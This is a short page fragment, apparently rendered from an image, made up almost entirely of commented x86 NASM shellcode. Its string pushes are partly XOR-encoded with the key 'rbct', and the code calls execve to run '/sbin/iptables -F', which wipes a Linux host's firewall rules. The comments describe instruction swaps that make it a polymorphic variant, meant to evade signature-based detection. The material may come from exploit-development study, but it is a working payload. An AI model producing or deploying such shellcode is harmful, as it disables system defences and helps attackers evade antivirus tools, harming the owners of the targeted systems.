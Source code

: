```nasm
    ; instead of pushing EAX, push EDX
    push edx

    ; push word 0x462d
    ; instead of pushing the WORD 0x462d, use two steps
    mov di, 0x462d
    push di

    ; use edi instead of esi
    mov edi,esp
    
    ; use EBX or EDX instead of EAX
    push edx

    ; XOR key ('rbct')
    mov esi, 0x72626374

    ; NULL DWORD acting as the string terminator for
    ;   the path of the executable
    push edx

    push 0x73656c62
    
    push 0x1316131d
    xor [esp], esi

    push 0x2f6e6962

    push 0x014d4c5b
    xor [esp], esi

    ; save the pointer to the string into EBX
    push esp
    pop ebx

    ; instead of 'push eax' use 'push edx', as they are both set to 0x0 
    push edx

    push edi
    push ebx

    mov al, 0xa
    inc eax

    ; use the PUSH-POP technique instead of the MOV instruction
    push esp
    pop ecx

    ; call execve
    int 0x80
```
